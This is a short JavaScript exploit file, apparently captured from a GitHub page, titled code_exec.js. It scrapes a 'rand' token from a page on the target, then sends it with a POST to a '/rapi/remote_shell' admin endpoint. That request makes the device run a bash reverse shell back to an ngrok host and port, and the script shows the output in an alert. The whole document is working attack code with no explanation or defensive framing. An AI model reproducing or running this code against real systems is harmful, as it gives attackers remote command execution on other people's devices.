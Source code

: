 `code_exec.js`
```js
function load(url, callback) {
  var xhr = new XMLHttpRequest();

  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4) {
      rand = callback(xhr.response);
      exec_command(rand);
    }
  }

  xhr.open('GET', url, true);
  xhr.send('');
}

function get_rand(payload) {
	var lines = payload.split("\n");
	for(var i = 0; i < lines.length; i++) {
	    if (lines[i].includes('var rand = "')) {
	    	var rand = lines[i].split('"')[1]
	    	return rand;
	    }
	}
}

function exec_command(rand) {
	url = '/rapi/remote_shell'
	command = 'bash -c \"bash -i >%26 /dev/tcp/0.tcp.ngrok.io/16588 0>%261\"'

	var obj = {
		"params":{
			"warning":"YES"
		},
		"remote_shell":{
			"command":command,
			"prompt":">",
			"target":"shell",
			"suppress":0,
			"execute_in_partition":""
		}
	}

	var xhr = new XMLHttpRequest();
	
	xhr.onreadystatechange = function() {
    	if (xhr.readyState === 4) {
    		response = JSON.parse(xhr.response);
    		alert(response['remote_shell']['output']);
    	}
  	}

	xhr.open('POST', url, true);
	xhr.setRequestHeader('rand_key', rand)
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  	xhr.send('object=' + JSON.stringify(obj));

}

var url = '/menu/stc';
load(url, get_rand)
```
